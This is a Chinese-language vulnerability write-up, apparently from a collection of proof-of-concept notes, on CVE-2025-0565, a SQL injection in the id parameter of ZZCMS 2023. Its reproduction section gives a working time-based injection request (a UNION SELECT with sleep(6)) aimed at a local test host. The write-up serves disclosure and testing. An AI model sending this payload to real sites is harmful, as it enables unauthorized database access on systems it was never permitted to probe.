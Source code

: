 **漏洞介绍**



![图片](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640.webp)

ZZCMS是中国ZZCMS团队的一套内容管理系统（CMS）。ZZCMS是一款功能强大且灵活的内容管理系统，专为企业和个人用户设计，旨在简化网站建设与管理流程。它提供了丰富的模块和插件，支持多种网站类型，如企业官网、电商平台、博客等。

ZZCMS存在注入漏洞，该漏洞源于/index.php页面的id参数包含一个SQL注入漏洞。



![Image](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640-1749087499870-1.webp)



**0x02影响版本**



 ZZCMS 2023

![图片](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640-1749087499870-2.webp)

![Image](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640-1749087499870-1.webp)



**0x03漏洞复现**

1.访问漏洞环境

![图片](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640-1749087499870-3.webp)

2.对漏洞进行复现

 **POC** 

漏洞复现

```
GET /zhanting/index.php?id=1'union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,sleep(6)+--+x&skin= HTTP/1.1
Host: 127.0.0.1

```

   通过sleep函数睡眠6秒判断漏洞存在

![图片](ZZCMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9ECVE-2025-0565.assets/640-1749087499870-4.webp)